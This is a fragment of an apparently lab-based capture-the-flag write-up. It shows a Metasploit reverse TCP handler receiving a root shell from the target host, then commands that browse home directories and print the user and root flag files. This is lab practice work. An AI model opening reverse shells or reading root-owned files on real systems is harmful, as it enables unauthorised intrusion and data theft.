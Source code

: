 Checking the user on Shell session we notice we are now root, so we can read through all the flags , user flag present in makis user directory and root at usual location

```

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:45549) at 2023-05-28 22:32:45 +0530

whoami
root
pwd
/


cd home
ls
ftp
makis
service
user
cd user
ls
cd ..
cd makis
ls
user.txt
cat user.txt
030cbd25cfc0f796f630983ded15fc38
cat /root/root.txt
db586d142eae0e9f16ff5a4deb4bb0c2


```

